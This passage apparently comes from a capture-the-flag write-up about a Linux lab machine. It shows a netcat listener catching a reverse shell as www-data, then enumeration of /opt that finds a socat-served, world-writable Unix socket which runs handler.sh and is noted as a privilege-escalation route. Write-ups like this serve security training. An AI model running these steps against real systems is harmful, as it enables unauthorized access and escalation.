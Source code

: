 ```bash
listening on [any] 4444 ...
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.102] 35698
bash: cannot set terminal process group (847): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.2$ 
```

I entered the command **id** to see which user are we. 

```bash
bash-5.2$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


## Gaining access to helpdesk

```bash
bash-5.2$ ls -la /opt
ls -la /opt
total 16
drwxr-xr-x  4 root     root     4096 Aug 16 15:32 .
drwxr-xr-x 23 root     root     4096 Aug 16 15:58 ..
drwxr-xr-x  2 root     root     4096 Aug 16 16:13 dev_server
drwxr-xr-x  2 helpdesk helpdesk 4096 Sep 18 17:33 helpdesk-socket
```
/opt contains optional software. The helpdesk-socket directory is writable by the helpdesk user, making it a potential vector for privilege escalation.

```bash
ls -la
total 16
drwxr-xr-x 2 helpdesk helpdesk 4096 Sep 18 17:33 .
drwxr-xr-x 4 root     root     4096 Aug 16 15:32 ..
-rwxr-xr-x 1 helpdesk helpdesk  158 Aug 16 15:32 handler.sh
srwxrwxrwx 1 helpdesk helpdesk    0 Sep 18 17:33 helpdesk.sock
-rw-r--r-- 1 root     root      184 Aug 16 15:44 serve.sh
```

```bash
bash-5.2$ cat serve.sh
cat serve.sh
#!/bin/bash

SOCKET="/opt/helpdesk-socket/helpdesk.sock"

[ -e "$SOCKET" ] && rm "$SOCKET"

/usr/bin/socat -d -d UNIX-LISTEN:$SOCKET,fork,mode=777 EXEC:/opt/helpdesk-socket/handler.sh
```

serve.sh starts a Unix socket at /opt/helpdesk-socket/helpdesk.sock using socat, which executes handler.sh for every connection; the socket is world-writable, making it a potential vector for privilege escalation.
